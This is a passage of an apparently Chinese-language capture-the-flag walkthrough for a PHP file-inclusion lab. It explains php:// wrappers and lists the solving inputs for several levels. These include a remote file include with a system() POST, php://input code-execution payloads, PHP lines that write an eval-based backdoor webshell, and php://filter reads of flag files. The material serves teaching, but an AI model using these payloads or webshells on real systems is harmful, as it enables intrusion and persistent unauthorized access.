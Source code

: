 本题解法：**GET**:`?wrappers=raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI` **POST**:`a=system('cat /flag');`

### Level 6  php:// 协议

> php:// — 访问各个输入/输出流（I/O streams），PHP中最为复杂和强大的协议(https://www.php.net/manual/zh/wrappers.php.php)。
>
> 在CTF中经常使用的如下：
>
> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://filter - (PHP_Version>=5.0.0)其参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递，从而组成一个过滤链，常用于数据读取。

Demo 关卡，用于自由探索  php:// 协议，你可以使用下面任意一种方法通关（不唯一）：

```php
php://input + [<?= system('tac flag.???');?>]
php://input + [<?php fputs(fopen('backdoor.php','w'),'<?php @eval($_GET[ctf]); ?>'); ?>]

php://filter//resource=/flag
php://filter/read=convert.base64-encode/resource=flag.php
php://filter/convert.base64-encode/resource=flag.php
```

### Level 7  php://input 协议

> php://input - 可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype="multipart/form-data" 的时候php://input 是无效的。常用于执行代码。 依赖：allow_url_include:On
>
> php://input做为include的直接参数时，如题，php执行时会将post内容当作文件内容，要注意，php://input不支持post提交，其请求的参数格式是原生(Raw)的内容，无法使用hackbar提交，因为hackbar不支持raw方式  

题目已经提供对应答案：

```php
<?php eval($_GET['ctf']); ?> /* 间接代码执行 */ 

<?php fputs(fopen('backdoor.php','w'),'<?php eval($_POST["ctf"]); ?>'); ?> /* 生成后门木马 */ 

<?= system('tac flag.???');?> /* 直接命令执行 */  

```

### Level 8 php://filter_过滤器&字符串过滤器

GET：`?wrappers=filter/string.rot13/resource=/flag`

### Level 9 php://filter_转换过滤器

GET：`?wrappers=filter/convert.base64-encode/resource=flag.php`

### Level 10 文件系统函数_file_get_contents()

我们常见的文件包含题目的大多数考点主要集中在类似 include() 函数（这里的类似强调的是 incdlue、require、include_once、require_once）的调用上，除开直接的文本包含，更多还涉及到了一些封装协议(wrappers)的使用，比如 file 协议、data 协议、php 协议等等。
